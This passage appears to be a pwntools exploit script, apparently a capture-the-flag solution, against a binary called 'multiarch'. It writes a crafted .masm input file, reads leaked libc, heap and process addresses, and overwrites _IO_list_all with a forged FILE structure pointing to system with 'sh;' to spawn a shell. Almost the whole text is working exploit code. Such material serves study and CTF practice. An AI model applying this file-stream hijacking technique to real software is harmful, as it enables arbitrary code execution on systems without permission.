 ```py

stdin_read(len(buf1))
write_io_list_all(len(buf1))
construct_fake_iofile(len(buf1))
resume_mmap_region1(len(buf1))

buf1 += b"\x73" # invalid instruction to trigger the bug
# send info
offset1 = 19
offset2 = offset1 + len(buf1)
offset3 = offset2 + len(buf2)
content = b"MASM" + p8(1) + p16(offset1) + p16(len(buf1)) + p8(2) + p16(offset2) + p16(len(buf2)) + p8(3) + p16(offset3) + p16(len(buf3))
content += buf1 + buf2.encode("latin-1") + b"".join(p8(x) for x in buf3)
with open("out.masm", "wb") as f:
    f.write(content)

# p = gdb.debug(["./multiarch", "out.masm"], """
# b* $rebase(0x3042)
# b* $rebase(0x2416)
# """)
p = process(["./multiarch", "out.masm"])
sleep(0.1)
for i in range(2):
    p.sendline(b"a"*0x10)
p.recvuntil("executing program\n")
addrs = p.recv(0x40)
libc_leak = u64(addrs[0x10:0x18])
libc_base = libc_leak + 0x4000
log.info("libc leak: " + hex(libc_leak))
heap_leak = u64(addrs[0x28:0x30])
proc_leak = u64(addrs[0x38:0x40])
log.info("heap leak: " + hex(heap_leak))
log.info("proc leak: " + hex(proc_leak))
log.info("libc base: " + hex(libc_base))

heap_base = heap_leak - 0x1620
proc_base = proc_leak - 0x12e0
# 自修改，修改第二个 mmap 的地址
p.send(p64(libc_base + libc.symbols["_IO_list_all"]))
fake_io_addr = heap_base + 0x1c60
p.send(p64(fake_io_addr))

system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x205700)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x202228+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)

p.send(fake_io_file.ljust(0xf8, b"\x00"))
p.send(p8(0))

p.interactive()
```